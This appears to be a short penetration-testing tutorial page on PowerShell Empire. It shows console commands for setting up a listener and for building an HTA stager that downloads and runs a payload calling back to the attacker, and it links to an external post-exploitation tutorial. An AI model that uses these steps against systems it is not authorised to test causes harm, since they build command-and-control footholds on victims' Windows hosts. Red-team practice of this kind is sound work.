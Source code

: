 # Powershell Empire 101

## Listener

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
// Empire commands used
?
uselistener meterpreter
info
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/empire-listener.png)

Starting the listener:

```text
execute
```

![](../.gitbook/assets/empire-startlistener.png)

## Stager

Stager will download and execute the final payload which will call back to the listener we set up previously - `meterpreter`:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
//specify what stager to use
usestager windows/hta

//associate stager with the meterpreter listener
set Listener meterpreter

//write stager to the file
set OutFile stage.hta

//create the stager
execute
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/empire-stager.png)



{% embed data="{\"url\":\"https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/\",\"type\":\"link\",\"title\":\"How to Use PowerShell Empire: Getting Started with Post-Exploitation of Windows Hosts\",\"description\":\"PowerShell Empire is a post-exploitation framework for computers and servers running Microsoft Windows, Windows Server operating systems, or both. In these tutorials, we will be exploring everything from how to install Powershell Empire to how to snoop around a victim\'s computer without the antivirus software knowing about it. If we are lucky, we might even be able to obtain domain administrator credentials and own the whole network. A Tool for Targeting Windows Exploit frameworks are popular, and most hackers have heard of Metasploit, a framework that automates the deployment of powerful\",\"icon\":{\"type\":\"icon\",\"url\":\"https://img.wonderhowto.com/images/favicons/wonderhowto/favicon-194x194.png\",\"width\":194,\"height\":194,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://img.wonderhowto.com/img/85/10/63638593407829/0/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts.1280x600.jpg\",\"width\":1280,\"height\":600,\"aspectRatio\":0.46875}}" %}

